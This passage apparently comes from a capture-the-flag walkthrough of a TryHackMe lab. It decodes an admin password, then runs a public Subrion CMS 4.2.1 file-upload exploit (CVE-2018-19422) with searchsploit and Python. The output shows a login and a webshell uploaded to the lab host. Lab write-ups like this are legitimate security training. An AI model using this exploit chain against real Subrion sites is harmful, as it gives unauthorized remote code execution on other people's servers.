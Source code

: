 ```js
                if ('boolean' === typeof response.result && response.result) {
                    alertBox.fadeOut().removeClass('alert-danger').addClass('alert-success').text(response.message);
                    alertBox.fadeIn();
                }
                else {
                    alertBox.fadeOut().removeClass('alert-success').addClass('alert-danger').text(response.message);
                    alertBox.fadeIn();
                }
            });
        }
        else {
            alertBox.addClass('alert-danger').fadeIn();
        }
    });
});
```

Where the validation seems to come from `intelli.config.url + 'registration.json'`. We previously found `intelli.config.url` being http://10.10.44.123/subrion/. Let's go to the `registration.json` file. Unfortunately, it sends back to local IP.

Going back to the password, the hint 'magic formula' made me think to the Magic function from [1], which yields:

```
From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',false)
From_Base32('A-Z2-7=',false)
From_Base64('A-Za-z0-9+/=',true,false)
```

And the password `Scam2021`. Let's login in the admin panel now.

Now let's try to run the Arbitrary File Upload:

```bash
searchsploit -m php/webapps/49876.py

  Exploit: Subrion CMS 4.2.1 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/49876
     Path: /usr/share/exploitdb/exploits/php/webapps/49876.py
    Codes: CVE-2018-19422
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (956)
Copied to: /home/kali/ctf/thm/Tech_Supp0rt1/49876.py
```

And run it

```bash
python3 49876.py -u http://10.10.44.123/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.44.123/subrion/panel/
[+] Success!
[+] Got CSRF token: LHwMbqFNh5OCgCAGQQb8NQznH9pSYVcpFDLwiItH
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: iwscqvdxguwkymn

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.44.123/subrion/panel/uploads/iwscqvdxguwkymn.phar 

$ whoami
```